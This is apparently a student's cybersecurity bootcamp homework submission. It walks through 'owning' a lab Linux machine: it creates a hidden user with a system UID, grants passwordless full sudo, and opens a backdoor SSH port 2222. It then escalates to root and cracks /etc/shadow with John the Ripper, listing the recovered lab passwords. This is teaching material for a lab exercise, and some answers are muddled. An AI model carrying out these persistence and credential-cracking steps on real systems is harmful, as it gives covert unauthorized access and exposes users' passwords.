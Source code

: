 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - **adduser sysd**

2. Give your secret user a password: 
    - **hack**

3. Give your secret user a system UID < 1000:
    - **usermod -u 900 sysd**

4. Give your secret user the same GID:
   - **groupmod -g 900 sysd**

5. Give your secret user full `sudo` access without the need for a password:
   -  **sudo visudo**

6. Test that `sudo` access works without your password:

   - **sysd ALL=(ALL:ALL) NOPASSWD:ALL**
    - **sudo -l command after changing access permission output: User sysd may run the following commands on UbuntuDesktop:**
    **(ALL:ALL) NOPASSWD: ALL**

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```
    nano /etc/ssh/sshd_config
    Add Port 2222 under Port 22
    Looks like:  Port 22
                 Port 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - **systemctl restart ssh**

2. Exit the `root` account:
    - **su sysd** 
    

3. SSH to the target machine using your `sysd` account and port `2222`:
    - **ssh sysd@192.168.6.105 -p 2222**

4. Use `sudo` to switch to the root user:
    - **sudo su**

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - **ssh sysd@192.168.6.105 -p 2222**
    
2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - **sudo su**
    - **john /etc/shadow**
    - **passwords(user=passwd): stallman=computer, babbage=freedom, mitnik=trustno1, lovelace=dragon, turing=lakers, sysadmin=passw0rd, root=passwd, student=Goodluck!,sysd=pass**
---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

